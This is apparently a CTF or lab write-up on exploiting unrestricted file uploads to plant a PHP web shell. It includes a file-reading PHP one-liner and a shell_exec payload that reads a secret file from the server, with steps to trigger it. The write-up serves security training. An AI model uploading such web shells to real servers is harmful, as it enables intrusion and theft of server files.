

## Exploiting unrestricted file uploads to deploy a web shell

From a security perspective, the worst possible scenario is when a website allows you to upload server-side scripts, such as PHP, Java, or Python files, and is also configured to execute them as code. This makes it trivial to create your own web shell on the server.

> A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint.

If you're able to successfully upload a web shell, you effectively have full control over the server. This means you can read and write arbitrary files, exfiltrate sensitive data, even use the server to pivot attacks against both internal infrastructure and other servers outside the network. For example, the following PHP one-liner could be used to read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Once uploaded, sending a request for this malicious file will return the target file's contents in the response.

## Challenge

> In this challenge we just have to upload a webshell to read the flag from `/home/carlos/secret`

--> So i made this payload :

```php
<?php echo shell_exec('cat /home/carlos/secret'); ?>
```

--> After successful upload right click on the image and select `copy image path` and paste in url and you will find the flag!


